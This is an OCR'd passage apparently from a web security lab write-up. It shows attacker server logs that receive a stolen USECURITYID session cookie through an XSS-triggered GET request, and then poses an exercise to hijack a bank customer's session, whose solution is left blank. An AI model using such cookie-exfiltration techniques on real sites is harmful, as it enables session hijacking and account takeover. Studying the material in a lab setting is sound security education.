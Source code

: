 \begin{itemize}
\item
  The above scripts automatically sends a \texttt{GET} request(whenn the
  victim page is loaded) to the attacker address.
\item
  The request for the above script can be seen in attacker's server
  logs, ```bash └─\$ sudo python -m SimpleHTTPServer 81\\
  Serving HTTP on 0.0.0.0 port 81 \ldots{} 192.168.37.128 - -
  {[}23/May/2021 15:34:01{]} code 404, message File not found
  192.168.37.128 - - {[}23/May/2021 15:34:01{]} ``GET
  /cookie.html?c=USECURITYID=crblk95qe8b8mmdcva0saaj9m4 HTTP/1.1'' 404 -
  192.168.37.128 - - {[}23/May/2021 15:35:07{]} code 404, message File
  not found 192.168.37.128 - - {[}23/May/2021 15:35:07{]} ``GET
  /cookie.html?c=USECURITYID=crblk95qe8b8mmdcva0saaj9m4 HTTP/1.1'' 404 -
  192.168.37.128 - - {[}23/May/2021 15:38:23{]} code 404, message File
  not found 192.168.37.128 - - {[}23/May/2021 15:38:23{]} ``GET
  /c=USECURITYID=crblk95qe8b8mmdcva0saaj9m4 HTTP/1.1'' 404 -

  ```
\item
  From the logs we can observe the request contents
  \texttt{USECURITYID=crblk95qe8b8mmdcva0saaj9m4} which we know that, is
  a cookie value.
\end{itemize}

\textbf{2. Use the implementation from the last step to hijack the
session of a customer of your bank. Briefly describe the steps to
perform this attack.}

\textbf{solution:}

